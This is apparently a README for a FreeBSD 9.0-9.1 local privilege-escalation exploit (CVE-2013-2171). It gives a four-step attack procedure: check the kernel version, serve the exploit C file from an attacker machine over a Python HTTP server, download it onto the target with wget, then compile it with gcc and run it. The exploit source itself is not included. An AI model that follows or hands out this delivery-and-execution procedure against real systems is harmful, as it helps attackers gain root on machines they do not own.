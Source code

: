 # FreeBSD-9.0-9.1 - Privilege-Escalation
CVE-2013-2171

By fbsd9lul@hunger.hu

How to Exploit!

**1° Check the kernel version**

```uname -a

FreeBSD freebsd 9.0-RELEASE FreeBSD 9.0-RELEASE #0: Tue Jan  3 07:46:30 UTC 2012
```

**2° Transfer this file to target**

```Attacker machine -> python3 -m http.server 8080

Target machine -> wget IP:8080/26368.c
```

**3° Use GCC to compile the code**

```gcc 26368.c -o exploit```

**4° Run the exploit**

```./exploit```
